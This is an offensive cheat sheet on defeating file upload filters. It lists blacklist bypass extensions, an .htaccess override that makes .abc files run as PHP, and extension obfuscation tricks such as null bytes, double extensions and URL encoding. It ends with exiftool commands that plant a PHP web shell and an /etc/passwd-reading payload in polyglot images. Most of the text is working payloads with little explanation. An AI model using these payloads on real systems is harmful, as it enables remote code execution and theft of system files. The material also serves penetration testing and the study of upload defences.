 # Insufficient blacklisting of dangerous file types
.php5, .shtml instead of .php


# Overriding the server configuration
------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename=".htaccess" &#x3C;!-- Specify the name of config file -->
Content-Type: text/plain

AddType application/x-httpd-php .abc

------abcdefghijk
# .htaccess works as directory-specific file. We could overwrite it to allow execution of other filetypes
# directory-specific configuration on IIS servers using a web.config file.
&#x3C;staticContent>
    &#x3C;mimeMap fileExtension=".json" mimeType="application/json" />
    &#x3C;/staticContent>
EXAMPLE: upload .htaccess setting .abc files as PHP executables and then upload our malicious .abc file


# Obfuscating file extensions
exploit.pHp # case insensitive
exploit.php.jpg # multiple extensions
exploit.php. # add trailing characters
exploit%2Ephp # URL encoding (or double URL encoding) for . / \
exploit.asp;.jpg exploit.asp%00.jpg # Add semicolons or URL-encoded null byte characters before the file extension
# Multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization.
xC0 x2E, xC4 xAE or xC0 xAE may be translated to x2E if the filename parsed as a UTF-8 string, but then converted to ASCII
exploit.p.phphp # in case dangerous extension is removed, it still leaves behind a valid extension

# Flawed validation of the file's contents
FF D8 FF # JPEG Magic Bytes
# Polyglot Files
https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack-on-exiftool/#polyglot-attack
convert -size 32x32 xc:white test.jpg
exiftool -Comment='&#x3C;?php echo system($_GET["cmd"]); ?>' test.jpg -o polyglot.php
exiftool -Comment="&#x3C;?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" test.jpg -o polyglot.php
